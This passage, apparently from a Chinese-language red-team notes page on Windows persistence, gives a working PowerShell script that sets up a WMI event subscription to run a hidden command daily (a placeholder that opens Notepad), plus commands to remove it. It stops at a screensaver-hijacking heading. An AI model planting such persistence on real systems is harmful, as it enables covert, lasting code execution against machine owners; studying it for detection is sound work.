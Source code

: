 ### WMI事件订阅

wmi.ps1

```powershell
# 创建事件过滤器
$Filter = @{
    Name = 'PersistenceFilter'
    EventNamespace = 'Root\Cimv2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 10 AND TargetInstance.Minute = 0"
}
$EventFilter = New-CimInstance -Namespace root\subscription -ClassName __EventFilter -Property $Filter

# 创建事件使用者
$Consumer = @{
    Name = 'PersistenceConsumer'
    CommandLineTemplate = 'powershell.exe -NoProfile -WindowStyle Hidden -Command "Start-Process notepad.exe"'
}
$EventConsumer = New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property $Consumer

# 绑定事件过滤器和事件使用者
$Binding = @{
    Filter = $EventFilter.__PATH
    Consumer = $EventConsumer.__PATH
}
New-CimInstance -Namespace root\subscription -ClassName __FilterToConsumerBinding -Property $Binding
```

```Bash
Get-Content wmi.ps1 | PowerShell.exe -noprofile -
```

```powershell
# 移除事件过滤器
Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Name='PersistenceFilter'" | Remove-WmiObject

# 移除事件使用者
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "Name='PersistenceConsumer'" | Remove-WmiObject

# 移除绑定
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "Filter='__EventFilter.Name=\"PersistenceFilter\"' AND Consumer='CommandLineEventConsumer.Name=\"PersistenceConsumer\"'" | Remove-WmiObject
```

### 劫持屏幕保护程序
